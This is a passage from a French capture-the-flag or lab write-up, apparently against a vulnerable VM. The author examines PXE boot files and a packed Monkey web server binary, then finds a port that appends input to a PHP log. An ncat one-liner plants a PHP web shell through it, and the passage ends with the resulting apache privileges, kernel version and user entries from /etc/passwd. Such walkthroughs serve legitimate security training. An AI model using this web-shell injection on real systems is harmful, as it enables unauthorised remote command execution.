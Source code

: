 Voici le contenu du dossier *pxelinux.cfg*:  

```plain
default:    ASCII text
dnsmasq:    ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, stripped
pxelinux.0: pxelinux loader
start:      Bourne-Again shell script, ASCII text executable
web:        directory
```

et du dossier web :  

```plain
conf:   directory
monkey: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.16, stripped
start:  Bourne-Again shell script, ASCII text executable
```

*monkey* est exécutable compressé avec *UPX*. Une fois décompressé on trouve des chaînes de caractères faisant référence au serveur web [Monkey](http://www.monkey-project.com/) en version 0.9.2.  

Les fichiers de l'archive n'ont aucune réelle valeur pour nous.

On remarque que le processus d'envoi de l'archive se répète toutes les 10 minutes.  

En refaisant un scan TCP à un moment un nouveau port est apparu sur la machine : 10001.  

Je tente de m'y connecter avec Ncat mais le port est fermé. Le port s'ouvre t-il uniquement à la fin de l'upload du fichier ?  

Je relance un listener Ncat et lors de la réception je me connecte sur le 10001 : ouvert !  

Le port semble lire le flux ligne par ligne (ça utilise peut être netcat), je saisis ainsi deux messages avant de *Ctrl+C* et je vois mes messages se trouver à la fin du fichier *backup\_log.php* :-)  

Pour injecter une backdoor dans le fichier PHP la commande suivante fonctionne :  

```bash
ncat -l -p 10000 -v; echo '<?php system($_GET["cmd"]); ?>' | ncat 192.168.2.120 10001 -v
```

On a bien évidemment les droits d'Apache :  

```plain
uid=80(apache) gid=80(apache) groups=80(apache)
```

sur un système Linux qui date un peu :p   

```plain
Linux slax 2.6.27.27 #1 SMP Wed Jul 22 07:27:34 AKDT 2009 i686 Intel(R) Core(TM) i5-7200U CPU @ 2.50GHz GenuineIntel GNU/Linux
```

Il y a trois users sur le système (hors root et autres daemons) :  

```plain
hbeale:x:1001:10:,,,:/home/hbeale:/bin/bash
jgreen:x:1002:10:,,,:/home/jgreen:/bin/bash
logs:x:1003:100:,,,:/tmp:/bin/bash
```
